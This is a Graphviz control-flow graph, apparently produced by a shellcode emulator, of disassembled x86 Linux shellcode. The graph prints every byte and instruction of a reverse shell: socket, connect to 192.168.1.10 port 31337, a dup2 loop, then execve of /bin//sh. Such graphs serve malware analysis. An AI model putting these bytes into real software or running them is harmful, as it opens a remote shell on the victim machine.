 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x55742c7cd5a0" [shape=box, label = "0x00417000 31C0                            xor eax,eax\l0x00417002 31DB                            xor ebx,ebx\l0x00417004 31C9                            xor ecx,ecx\l0x00417006 31D2                            xor edx,edx\l0x00417008 B066                            mov al,0x66\l0x0041700a B301                            mov bl,0x1\l0x0041700c 51                              push ecx\l0x0041700d 6A06                            push byte 0x6\l0x0041700f 6A01                            push byte 0x1\l0x00417011 6A02                            push byte 0x2\l0x00417013 89E1                            mov ecx,esp\l"]
	 "0x55742c7c7160" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417015 socket\l"]
	 "0x55742c7c6800" [shape=box, label = "0x00417017 89C6                            mov esi,eax\l0x00417019 B066                            mov al,0x66\l0x0041701b 31DB                            xor ebx,ebx\l0x0041701d B302                            mov bl,0x2\l0x0041701f 68C0A8010A                      push dword 0xa01a8c0\l0x00417024 66687A69                        push word 0x697a\l0x00417028 6653                            push bx\l0x0041702a FEC3                            inc bl\l0x0041702c 89E1                            mov ecx,esp\l0x0041702e 6A10                            push byte 0x10\l0x00417030 51                              push ecx\l0x00417031 56                              push esi\l0x00417032 89E1                            mov ecx,esp\l"]
	 "0x55742c7d3220" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417034 connect\l"]
	 "0x55742c7d3350" [shape=box, label = "0x00417036 31C9                            xor ecx,ecx\l0x00417038 B103                            mov cl,0x3\l"]
	 "0x55742c7d3640" [shape=box, label = "0x0041703a FEC9                            dec cl\l"]
	 "0x55742c7d37b0" [shape=box, label = "0x0041703c B03F                            mov al,0x3f\l"]
	 "0x55742c7d3930" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041703e dup2\l"]
	 "0x55742c7d3a60" [shape=box, label = "0x00417040 75                              jnz 0x1\l"]
	 "0x55742c7d3bd0" [shape=box, label = "0x00417042 31C0                            xor eax,eax\l0x00417044 52                              push edx\l0x00417045 686E2F7368                      push dword 0x68732f6e\l0x0041704a 682F2F6269                      push dword 0x69622f2f\l0x0041704f 89E3                            mov ebx,esp\l0x00417051 52                              push edx\l0x00417052 53                              push ebx\l0x00417053 89E1                            mov ecx,esp\l0x00417055 52                              push edx\l0x00417056 89E2                            mov edx,esp\l0x00417058 B00B                            mov al,0xb\l"]
	 "0x55742c7d4d80" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041705a execve\l"]
	 "0x55742c7cd5a0" -> "0x55742c7c7160" [style = bold ]
	 "0x55742c7c7160" -> "0x55742c7c6800" [style = bold ]
	 "0x55742c7c6800" -> "0x55742c7d3220" [style = bold ]
	 "0x55742c7d3220" -> "0x55742c7d3350" [style = bold ]
	 "0x55742c7d3350" -> "0x55742c7d3640" [style = bold ]
	 "0x55742c7d3640" -> "0x55742c7d37b0" [style = bold, color=orange ]
	 "0x55742c7d37b0" -> "0x55742c7d3930" [style = bold, color=orange ]
	 "0x55742c7d3930" -> "0x55742c7d3a60" [style = bold, color=orange ]
	 "0x55742c7d3a60" -> "0x55742c7d3640" [style = bold, color=orange ]
	 "0x55742c7d3a60" -> "0x55742c7d3bd0" [style = bold ]
	 "0x55742c7d3bd0" -> "0x55742c7d4d80" [style = bold ]
}